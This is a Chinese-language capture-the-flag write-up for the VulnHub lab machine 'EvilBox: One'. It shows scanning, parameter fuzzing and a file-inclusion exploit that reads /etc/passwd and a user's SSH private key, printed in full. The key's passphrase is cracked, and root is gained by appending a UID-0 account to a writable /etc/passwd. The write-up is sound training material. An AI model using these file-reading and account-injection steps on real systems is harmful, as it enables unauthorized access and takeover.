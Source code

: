# EvilBox: One

2024-5-24 https://www.vulnhub.com/entry/evilbox-one,736/

difficulty: Easy

## IP

192.168.5.30

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
```

只有 80 web，主页是 apache 默认页面，使用 gobuster 看看有什么。

http://192.168.5.30/robots.txt 提示: Hello H4x0r , 看上去像是个用户名。

http://192.168.5.30/secret/ 发现这个目录，再次基于这个目录进行爆破，发现页面：

```
http://192.168.5.30/secret/evil.php
```

但是什么都没输出，估计是缺少参数，进行 FUZZ：

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.30/secret/evil.php?FUZZ=/etc/passwd -fs 0
```

发现参数 command，拼接后，看看能不能执行 RCE 或者是 LFI：

```
curl -G --data-urlencode "command=/etc/passwd" http://192.168.5.30/secret/evil.php
```

发现用户 mowree。

经过验证发现存在 LFI，继续 FUZZ，看看有哪些 linux 系统文件能读取到：

```
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.5.30/secret/evil.php?command=FUZZ -fs 0
```

没读取到 ssh 或者 apache 的日志文件，不能在日志中写入 webshell，看看 mowree 用户中有没有.ssh/id_rsa 吧：

```
curl -G --data-urlencode "command=/home/mowree/.ssh/id_rsa" http://192.168.5.30/secret/evil.php

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```

得到私钥，保存到 kali 上，chmod 600 尝试 ssh 登陆，但是提示私钥有密码，还是使用 john + rockyou 尝试破解密钥，得到密钥: unicorn

登陆后，得到 user.txt：

```
mowree@EvilBoxOne:~$ cat user.txt
56Rbp0soobpzWSVzKh9YOvzGLgtPZQ
```

寻找提权到 root 的路径，sudo、suid、crontab、cap 都没发现有价值信息。

发现 /etc/passwd 对所有用户有可写权限，可以将新的 root 用户写入到其中：

```
mowree@EvilBoxOne:/tmp$ ls -al /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
mowree@EvilBoxOne:/tmp$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
mowree@EvilBoxOne:/tmp$ echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
mowree@EvilBoxOne:/tmp$ su new
Contraseña:
root@EvilBoxOne:/tmp# cd /root
root@EvilBoxOne:~# ls -al
total 24
drwx------  3 root root 4096 ago 16  2021 .
drwxr-xr-x 18 root root 4096 ago 16  2021 ..
lrwxrwxrwx  1 root root    9 ago 16  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 ago 16  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 16  2021 .local
-rw-r--r--  1 root root  148 ago 17  2015 .profile
-r--------  1 root root   31 ago 16  2021 root.txt
root@EvilBoxOne:~# cat root.txt
36QtXfdJWvdC0VavlPIApUbDlqTsBM
```
